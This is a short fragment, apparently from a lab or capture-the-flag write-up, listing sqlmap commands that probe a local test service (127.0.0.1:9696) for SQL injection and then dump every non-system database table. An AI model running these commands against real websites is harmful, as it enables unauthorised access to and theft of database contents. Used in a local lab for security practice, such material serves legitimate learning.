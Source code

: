 ```
1. sqlmap -u "http://127.0.0.1:9696/?id=1" --batch --dbs
2. sqlmap -u "http://127.0.0.1:9696/?id=1" -p id
3. sqlmap -u "http://127.0.0.1:9696/?id=1" -p id --current-db
4. sqlmap -u "http://127.0.0.1:9696/?id=1" --current-user
5. sqlmap -u "http://127.0.0.1:9696/?id=1" -p id --current-user
```

![](./IMG/53.png)
- The final success to get some information one

```
sqlmap -u "http://127.0.0.1:9696/?id=1" --dump-all --exclude-sysdbs
```

